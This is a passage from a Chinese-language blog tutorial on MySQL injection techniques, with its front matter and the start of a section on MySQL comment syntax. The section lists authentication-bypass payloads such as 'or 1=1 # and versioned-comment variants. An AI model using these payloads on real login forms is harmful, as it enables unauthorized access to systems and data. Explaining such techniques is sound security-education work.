 ```yaml
---
title: MySQL注入技巧
cover: https://img0.baidu.com/it/u=2009713656,733522492&fm=253&fmt=auto&app=120&f=JPEG?w=1422&h=800
swiper_index: 10
top_group_index: 10
background: '#fff'
date: 2025-03-20 10:43:02
updated:
tags: 攻防知识
categories:
keywords:
description:
top:
top_img:
comments:
toc:
toc_number:
toc_style_simple:
copyright:
copyright_author: 转载
copyright_author_href:
copyright_url:
copyright_info:
mathjax:
katex:
aplayer:
highlight_shrink:
aside:
ai:
---
```

# 0x01 MYSQl灵活的语法

***

**1 MySQL语法以及认证绕过**

注释符：

```
#， 
-- X(X为任意字符)
/*(MySQL-5.1)
;%00
`
'or 1=1;%00
'or 1=1 union select 1,2`'
'or 1=1 #
'/*!50000or*/ 1=1 -- -      //版本号为5.1.38时只要小于50138
'/*!or*/ 1=1 -- -
```
